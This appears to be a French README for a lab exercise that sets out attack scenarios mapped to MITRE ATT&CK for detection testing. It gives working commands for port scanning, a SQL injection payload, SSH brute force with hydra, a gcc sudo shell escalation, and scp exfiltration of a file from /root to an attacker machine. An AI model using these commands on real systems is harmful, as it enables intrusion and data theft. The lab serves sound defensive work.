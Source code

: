 
# Scénarios d'attaque

## Attaque 1 - Ping et Scan de ports

L’attaquant étant déjà sur le réseau, il a déjà sondé ce dernier afin de découvrir quels sont les appareils présents. Son attention se porte sur un serveur web dont il scanne les ports. Le balayage de ports permet de récupérer beaucoup d’informations sur la cible, notamment ses ports ouverts.

### Attaque 1.1
Tout d'abord, pour vérifier si le serveur qu'il veut attaquer est actif, il va pouvoir effectuer un ping comme suit :

`ping 10.0.0.1`

Pour le MITRE, cela correspond dans la phase Reconnaissance à Active Scanning (https://attack.mitre.org/techniques/T1595), un ping sert à découvrir les hôtes vivants, c’est un scan actif qui peut laisser des traces sur le réseau et dans les logs.

Une alerte est attendue.


## Attaque 1.2

L’outil utilisé ici est **nmap**, un scanner de ports qui permet d’avoir une meilleure idée de la surface d’attaque disponible sur le serveur web.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant : 

`nmap 10.0.0.1`

2 ports devraient être ouverts sur le serveur web : **SSH** (port 22) et **HTTP** (port 80)


Pour le MITRE, cela correspond dans la phase Reconnaissance au Active Scanning (https://attack.mitre.org/techniques/T1595), on scanne activement une machine et cela peut laisser des traces, c’est plus visible qu’une sonde, mais récolte beaucoup plus d’informations. 

Une alerte est attendue.


## Attaque 2 - Récupération des noms utilisateurs par injection SQL

Le service SSH étant inutilisable pour l’instant, l’attaquant se concentre sur l’application web publique hébergée sur le serveur. Il s’agit d’un outil interne permettant aux employés de trouver le contact des autres en donnant leur nom. Coup de chance, l’application est vulnérable : elle est susceptible d’accepter des requêtes non vérifiées vers la base de données. En exploitant une vulnérabilité d’injection SQL, il interroge donc la base MariaDB pour lister tous les employés et récupérer au moins un nom d’utilisateur utilisable pour les étapes ultérieures. 

L’objectif est d’obtenir des informations d’identification partielles sans nécessité d’accès shell initial.
Pour le MITRE, cela correspond dans la phase Initial Access à Exploitation of Public-Facing Application et SQL Injection (https://attack.mitre.org/techniques/T1190). L’injection SQL est une technique d’accès applicatif qui laisse des traces dans les logs HTTP et dans les logs de la base, et qui peut générer des motifs détectables par un IDS si les payloads sont visibles.

L’outil utilisé sera le navigateur web Firefox (installé par défaut avec Debian).

L’attaque se réalise comme ceci à partir de la VM de l’attaquant : 

Naviguez vers http://10.0.0.1/index.php

Effectuez l’injection SQL suivante dans le formulaire web : 

`' or 1=1#`

Cela devrait retourner la liste complète des employés de l’entreprise en prenant avantage du code php vulnérable du serveur. Parmi ceux-ci, l’attaquant remarque **bob**, développeur web. Il a probablement travaillé sur ce serveur, et il vaut donc le coup de s’intéresser à son accès.

Une alerte est attendue.

## Attaque 3 - Brute-force sur un utilisateur

Après identification d’un nom d’utilisateur valide (‘bob’), qui signifie qu’il existe très probablement un utilisateur bob dans le serveur web, l’attaquant lance une attaque par dictionnaire contre le service SSH de la machine vulnérable afin d’obtenir une session authentifiée avec accès au shell. 

L’objectif est d’obtenir un accès au système, en testant de manière automatique une liste de mots de passe issue d’un dictionnaire sur un nom d'utilisateur connu.
Pour le MITRE, cela correspond dans la phase Credential Access au Brute Force (https://attack.mitre.org/techniques/T1110). Les tentatives répétées génèrent des échecs d’authentification visibles dans les logs d’authentification système et peuvent déclencher des règles de détection basées sur des taux d’échec élevés.  

L’outil utilisé ici sera **hydra**, un outil permettant de lancer diverses attaques de force brute au travers de différents protocoles (ftp, ssh, etc) à l’aide de liste d’identifiants et mots de passe fournis.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant (en supposant toujours être dans le dossier /root): 

`hydra -l bob -P wordlist.txt ssh://10.0.0.1`

wordlist.txt contient une petite liste de mots de passe faibles.

Cette ligne devrait apparaître : 

`[22][ssh] host: 10.10.212.228   login: bob   password: password`

Il semblerait donc que bob utilise un mot de passe beaucoup trop faible (‘password’), permettant ainsi à l’attaquant de se connecter en tant que bob sur le serveur web avec cette commande, puis en rentrant le mot de passe trouvé : 

`ssh bob@10.0.0.1`

Une alerte est attendue.

## Attaque 4 - Escalade de privilège sur le serveur 

Une fois connecté en tant que bob, l’attaquant se rend compte qu’il ne possède pas les permissions nécessaires pour pouvoir accéder à l’ensemble des fichiers du serveur. En revanche, de par son statut de développeur, bob possède certains privilèges. L’attaquant exécute `sudo -l` et voit que bob peut utiliser le compilateur **gcc** en tant que root. 

L’objectif est d’obtenir un accès privilégié au système, en utilisant des techniques dites d’escalation de privilège.
Pour le MITRE, cela correspond dans la phase Privilege Escalation au Abuse Elevation Control Mechanism (https://attack.mitre.org/techniques/T1548). Cela lui permet d’obtenir des permissions supérieures.

L’outil utilisé ici sera **gcc**, un outil de compilation pouvant servir de vecteur d’attaque s’il est exécuté avec des privilèges.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant (en tant que bob sur le serveur web): 

`sudo gcc -wrapper /bin/sh,-s .`

Cette commande permet de garder les privilèges obtenus en utilisant gcc pour exécuter un shell.

En faisant whoami, cela devrait renvoyer root. L’attaquant a donc un accès total au serveur web.

Une alerte est attendue.

## Attaque 5 - Exfiltration de données

Après prise de contrôle de privilèges, l’attaquant réalise l’exfiltration d’un fichier ciblé depuis la machine compromise vers une machine contrôlée par l’attaquant. Le transfert est réalisé via un canal chiffré standard (scp/SSH) afin de réduire la visibilité du contenu, en s’appuyant sur une connexion sortante autorisée ou nouvellement établie. 

L’objectif est de voler des données d’intérêt pour l’attaquant, en l'occurrence next_prime_minister_of_canada.jpg situé dans le dossier /root. Cette image est critique pour la sécurité du premier ministre.
Pour le MITRE, cela correspond dans la phase Exfiltration à Exfiltration Over Alternative Protocols(https://attack.mitre.org/techniques/T1048). L’exfiltration chiffrée masque le contenu mais laisse des métadonnées réseau (endpoints, volumes, durée) exploitables pour la détection.

L’outil utilisé ici sera **scp**, un outil permettant de copier des fichiers de manière sécurisée sur le réseau à l’aide du protocole SFTP sur une connexion SSH.

L’attaque se réalise comme ceci :

`scp /root/next_prime_minister_of_canada.jpg debian@10.0.0.3:/home/debian` 

Puis se connecter en donnant le mot de passe de la VM attaquant.

Si tout s’est bien passé, l’image devrait être accessible sur la VM attaquant, et nous vous laissons découvrir ce fichier primordial pour la sécurité du Canada.

Une alerte est attendue.

